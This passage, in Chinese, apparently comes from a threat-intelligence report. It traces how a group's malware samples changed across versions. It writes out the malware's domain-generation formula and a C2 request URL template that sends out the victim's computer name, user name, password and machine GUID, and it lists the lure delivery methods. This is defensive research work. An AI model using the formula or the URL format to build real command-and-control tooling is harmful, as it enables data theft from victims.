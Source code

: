 ## 0x02.样本相似以及技术演进

### 1.样本相似

**\(1\).域名生成算法的相关**

从之前的样本去看,从**第一版本**到**第22版本**都使用了相关的域名生成算法,其中以**第八版本**为一个分界线

**第八版本**之前使用了如下的`C2`域名生成算法:

```text
ToHex(CRC32(“NRV1” + 年 + 月 + 周号)) + (“.space”|”.net”|”.top”)
```

**第八版本**使用了如下的`C2`域名生成算法:

```text
ToHex(CRC32(“NRTV1” + 年 + 月 + 周号)) + (“.space”|”.net”|”.top”|”.dynu.net”)
```

而本次活动披露的**第21版本**与**第22版本**则使用了老的域名生成算法进行生成,同时扩充了新的后缀

```text
ToHex(CRC32("NRV1" + 年 + 月 + 周号)) + (".space"|".net"|".top"|".dynu.net")
```

在V21与V22版本中更新了添加了验证C2的功能，猜测可能因为之前有安全公司通过算法得到域名后抢在黑客组织前提前抢注了域名

所以导致攻击者添加了验证的环节

**\(2\).C&C报文的URL路径**

该组织并没有去费周折修改其样本的C&C的请求报文

```text
http://<C2domain>/2014/?c=<计算机名>&u=<用户名>＆v =<版本>＆s =<密码>＆f=<文件夹>&mi=<machineguid_urlencoded>&b=<32/64bit>&t=<time_urlencoded>http://<C2domain>/2015/?c=<计算机名>&u=<用户名>&v=<版本>&s=<密码>&f=<文件夹>&mi=<machineguid_urlencoded>&b=<32/64bit>&t=<time_urlencoded>
```

### 2.样本技术演进

**\(1\).初始植入物的演变**

其使用的植入物在前期版本以向PPT文件嵌入多个ole以诱导受害人点击,以及使用可能的水坑攻击,并且使用直接投递伪装成相关诱饵文件的sfx文档进行投递.在本次捕获的样本中主要涉及到使用恶意宏文档进行投递.不过不排除还有其他攻击手段的可能性\(**注意:不是准确结论,仅为部分猜测**\)
